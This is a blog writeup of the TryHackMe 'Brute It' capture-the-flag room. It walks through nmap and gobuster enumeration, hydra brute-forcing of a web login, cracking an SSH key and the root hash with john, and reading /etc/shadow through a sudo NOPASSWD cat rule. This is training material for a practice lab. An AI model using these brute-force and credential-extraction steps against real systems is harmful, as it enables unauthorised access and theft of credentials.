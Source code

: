 ```yaml
---
layout: default
title : Brute It - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 08, 2020**_

[Brute It](https://tryhackme.com/room/bruteit) Writeup


## Nmap Scan :

```
bvr0n@kali:~/CTF/THM/Brute_It$ nmap -sC -sV 10.10.140.71 -Pn
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH *.*** Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd *.*.** ((Ubuntu))
|_http-server-header: Apache/*.*.** (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enum :

```
bvr0n@kali:~$ gobuster dir -u http://10.10.140.71/ -w Documents/Dirbuster/wordlist.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.140.71/
[+] Threads:        10
[+] Wordlist:       Documents/Dirbuster/wordlist.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/08 06:58:30 Starting gobuster
===============================================================
/***** (Status: 301)
```

When accessing the web page, we got something in the code source :
```
<!-- Hey john, if you do not remember, the username is ***** -->
```
So now we know that the username is `*****`, let's start brute forcing with `hydra` :).

```
bvr0n@kali:~/CTF/THM/Brute_It$ hydra -l ***** -P ~/Documents/rockyou.txt 10.10.140.71 http-post-form "/*****/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"
[DATA] attacking http-post-form://10.10.140.71:80/*****/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid
[80][http-post-form] host: 10.10.140.71   login: *****   password: ******
```
Let's grab the private key and brute force it with `john`, but first let's turn it into something john understand :
```
bvr0n@kali:~/CTF/THM/Brute_It$ /usr/share/john/ssh2john.py id_rsa > hash
bvr0n@kali:~/CTF/THM/Brute_It$ sudo john hash --wordlist=/home/bvr0n/Documents/rockyou.txt
**********       (id_rsa)
```
Now we have access into SSH.

## Internal Enum :

Looks like we have some privileges xD, we can read everything with `cat`, Let's grab the root hash inside `/etc/shadow` and crack it:
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
```
john@bruteit:/home/thm$ sudo cat /etc/shadow
root:$6$zdk0.************************************************LF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
bvr0n@kali:~/CTF/THM/Brute_It$ sudo john root.txt --wordlist=/home/bvr0n/Documents/rockyou.txt
********         (root)
```
```
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{********************}
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
